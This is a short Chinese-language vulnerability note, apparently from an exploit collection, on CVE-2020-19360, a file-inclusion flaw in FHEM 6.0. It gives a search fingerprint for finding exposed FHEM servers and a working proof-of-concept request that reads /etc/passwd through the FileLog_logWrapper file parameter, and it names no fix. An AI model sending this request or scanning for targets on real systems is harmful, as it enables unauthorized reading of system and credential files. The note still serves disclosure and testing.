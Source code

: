 # Fhem FileLog_logWrapper 任意文件读取漏洞 CVE-2020-19360

## 漏洞描述

FHEM在6.0版本中存在文件包含漏洞，该漏洞源于允许FHEM/FileLog_logWrapper file参数允许攻击者包含文件，攻击者可以利用此漏洞导致敏感信息泄露。

## 漏洞影响

```
FHEM 6.0
```

## 网络测绘

```
title=="Home, Sweet Home"
```

## 漏洞复现

主页面

![image-20220524144941606](images/202205241449644.png)

验证POC

```
/fhem/FileLog_logWrapper?dev=Logfile&file=%2fetc%2fpasswd&type=text
```

![image-20220524144955698](images/202205241449759.png)